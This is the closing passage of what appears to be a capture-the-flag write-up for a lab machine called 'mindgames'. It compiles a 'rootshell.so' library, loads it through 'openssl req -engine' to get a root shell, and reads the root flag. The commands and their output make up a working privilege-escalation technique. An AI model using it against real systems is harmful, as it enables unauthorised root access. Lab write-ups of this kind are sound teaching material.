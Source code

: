 On my Kali machine, I created the `*.so` library as follows:

~~~
$ gcc -fPIC -o rootshell.o -c rootshell.c
$ gcc -shared -o rootshell.so -lcrypto rootshell.o
~~~

Transfer the resulting `rootshell.so` library on the target and execute it with `openssl` as follows:

~~~
mindgames@mindgames:~$ chmod +x rootshell.so 
mindgames@mindgames:~$ openssl req -engine ./rootshell.so
root@mindgames:~# id
uid=0(root) gid=1001(mindgames) groups=1001(mindgames)
~~~

## Root flag

The root flag is in the `/root` directory:

~~~
root@mindgames:~# cat /root/root.txt 
thm{1974a617cc84c5b51411c283544ee254}
~~~
